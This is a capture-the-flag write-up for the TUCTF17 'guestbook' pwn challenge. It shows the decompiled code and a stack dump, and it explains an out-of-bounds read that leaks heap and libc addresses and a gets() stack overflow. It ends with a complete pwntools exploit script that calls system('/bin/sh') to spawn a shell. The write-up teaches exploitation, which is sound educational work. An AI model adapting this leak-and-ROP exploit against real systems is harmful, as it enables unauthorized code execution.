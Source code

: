 ```yaml
---
layout: post
title: TUCTF17 PWN 250
tags: [ctf, pwn, write-up, tuctf17]
---
```


### Challenge: [guestbook](../ctfs/tuctf17/pwn/guestbook/guestbook)
(**PS**: *libc was provided for this challenge*)

### Reversing
Let's start with basic analysis of given binary
```bash
$ file ./guestbook
guestbook: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc73592d4897267cd1097b0541dc571d051a7ca0, not stripped
$ checksec ./guestbook
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So we have PIE and NX enabled, which in most scenarios require combination of information leak and ROP (Return Oriented Programming). I quickly fire up IDA for further analysis.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+0h] [bp-98h]@16
  int v5; // [sp+64h] [bp-34h]@11
  int v6; // [sp+68h] [bp-30h]@7
  char *dest[4]; // [sp+6Ch] [bp-2Ch]@2
  char v8; // [sp+7Fh] [bp-19h]@5
  int (**v9)(const char *); // [sp+80h] [bp-18h]@4
  char **v10; // [sp+84h] [bp-14h]@4
  char *v11; // [sp+88h] [bp-10h]@2
  char v12; // [sp+8Fh] [bp-9h]@4
  int i; // [sp+90h] [bp-8h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("Please setup your guest book:");
  for ( i = 0; i <= 3; ++i )
  {
    printf("Name for guest: #%d\n>>>", i);
    v11 = (char *)malloc(0xFu);
    __isoc99_scanf("%15s", v11);
    v11[14] = 0;
    dest[i] = v11;
  }
  v10 = dest;
  v9 = &system;
  v12 = 1;
  while ( v12 )
  {
    do
      v8 = getchar();
    while ( v8 != 10 && v8 != -1 );
    puts("---------------------------");
    puts("1: View name");
    puts("2: Change name");
    puts("3. Quit");
    printf(">>");
    v6 = 0;
    __isoc99_scanf("%d", &v6);
    switch ( v6 )
    {
      case 2:
        printf("Which entry do you want to change?\n>>>");
        v5 = -1;
        __isoc99_scanf("%d", &v5);
        if ( v5 >= 0 )
        {
          printf("Enter the name of the new guest.\n>>>");
          do
            v8 = getchar();
          while ( v8 != 10 && v8 != -1 );
          gets(&s);
          strcpy(dest[v5], &s);
        }
        else
        {
          puts("Enter a valid number");
        }
        break;
      case 3:
        v12 = 0;
        break;
      case 1:
        readName((int)dest);
        break;
      default:
        puts("Not a valid option. Try again");
        break;
    }
  }
  return 0;
}

int __cdecl readName(int a1)
{
  int result; // eax@2
  int v2; // [sp+0h] [bp-8h]@1

  printf("Which entry do you want to view?\n>>>");
  v2 = -1;
  __isoc99_scanf("%d", &v2);
  if ( v2 >= 0 )
    result = puts(*(const char **)(4 * v2 + a1));
  else
    result = puts("Enter a valid number");
  return result;
}
```
Above is the decompiled pseudo code generated by IDA hex-rays plugin. Here as the code suggests, binary takes input for four guests and assigns each a numerical entry (eg #1). After this binary gives out a menu with three options, we can either choose to view name in a guest entry or change name in a guest entry or simply select `quit` option which return the `main`. There is a interesting block of code that is spotted instantly, `Change name` section uses `gets` function to take input on the stack which can allow us to overwrite return address. But where to return to? Meaning we still have to bypass PIE by getting an info leak. To get that, there is a user-defined function `readName` in `View name` section. This function takes array of string `dest` which is a stack variable for `main` function, as argument and asks user for the entry of `dest` to be printed on console. Now here lies the second vulnerability. Entry integer value doesnt have a max value check inplace. So we can use this to leak stuff on the stack. Now lets see if there is anything interesing on stack.

```bash
gdb-peda$ stack 500
...
0112| 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0116| 0xffffd230 --> 0x56558428 --> 0x42 ('B')
0120| 0xffffd234 --> 0x56558440 --> 0x43 ('C')
0124| 0xffffd238 --> 0x56558458 --> 0x44 ('D')
0128| 0xffffd23c --> 0xa5559f1 
0132| 0xffffd240 --> 0xf7e2cfa0 (<system>:	sub    esp,0xc)
0136| 0xffffd244 --> 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0140| 0xffffd248 --> 0x56558458 --> 0x44 ('D')
0144| 0xffffd24c --> 0x1000000 
0148| 0xffffd250 --> 0x4 
0152| 0xffffd254 --> 0x0 
0156| 0xffffd258 --> 0x0 
0160| 0xffffd25c --> 0xf7e09456 (<__libc_start_main+246>:	add    esp,0x10)
...
```  
Above is the stack view taken from `gdb-peda`. [0x56558008, 0x56558428, 0x56558440, 0x56558458] is what `dest` looks like. Buf if we request for 6 index in `dest`, 0xffffd22c address will be printed as a string which will inturn leak out heap address `0x56558008` and system address `0xf7e2cfa0`. After getting this leak we can craft our payload for stack based buffer overflow in `Change name` section.
Final buffer overflow payload will be (custom values are added in between *eip offset buffer* due to `strcpy` call just after the `gets` call)
`'/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n"`
Here `heap_addr`*4 has been added to overwrite `dest` variable's array elements. With this in the next `strcpy` call, `/bin/sh` gets written on the `heap_addr` providing us argument for `system` ROP chain.
Below is the final exploit script
```python
from pwn import *

def ch_name(index, name):
    r.recvuntil(">>")
    r.sendline("2")
    r.recvuntil(">>>")
    r.sendline(str(index))
    #r.interactive()
    r.recvuntil(">>>")
    r.sendline(name)

def vw_name(index):
    r.recvuntil(">>")
    r.sendline("1")
    r.recvuntil(">>>")
    r.sendline(str(index))

r = process("./guestbook")

# providing guest names
for i in range(4):
    r.recvuntil(">>>")
    r.sendline(chr(0x41 + i)*4)

# leak stack address
vw_name(6)
leak = r.recv(24)
heap_addr = u32(leak[0:4])
log.info("heap address: 0x{:x}".format(heap_addr))
system_addr = u32(leak[20:24])
log.info("system address: 0x{:x}".format(system_addr))
# overwriting return address
ch_name(0, '/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n")
#gdb.attach(r)
# triggering shell
r.sendline("3")
r.recvuntil(">>")
r.interactive()
```
Exploit script [link](../ctfs/tuctf17/pwn/guestbook/sploit.py)